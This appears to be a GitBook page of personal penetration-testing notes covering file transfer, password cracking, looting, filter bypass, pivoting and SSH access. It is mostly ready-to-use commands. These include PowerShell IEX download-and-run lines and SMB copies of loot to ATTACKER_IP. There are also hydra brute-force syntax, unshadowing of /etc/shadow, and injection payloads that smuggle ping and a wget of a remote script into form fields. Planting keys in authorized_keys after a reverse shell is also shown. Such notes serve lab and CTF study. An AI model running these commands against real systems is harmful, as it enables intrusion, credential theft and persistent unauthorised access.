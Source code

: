 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="false" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```bash
#sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
#net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
#copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
#net use \\ATTACKER_IP\share /del

sudo python3 /opt/impacket/examples/smbserver.py [share_name] pwd -smb2support 
#Target
net view \10.10.14.3\
[CMD:] copy [LOOT] \[IP]\[share_name] 
[PowerShell:] Copy-Item [LOOT] \[share]\[LOOT]
```

## Password Cracking/Spraying

{% embed url="https://keydecryptor.com/" %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash [Alternative to whitespace]

#Curly brace expansion
0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

\r\n -> EOL, similar function to ';'
%0d : \r [Carriage return]
%0a : \n
%09 : \t

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>eg. port 3306 running on target but no mysql client, access from kali unless sum like mysqldump is there</p></figcaption></figure>

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

## SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
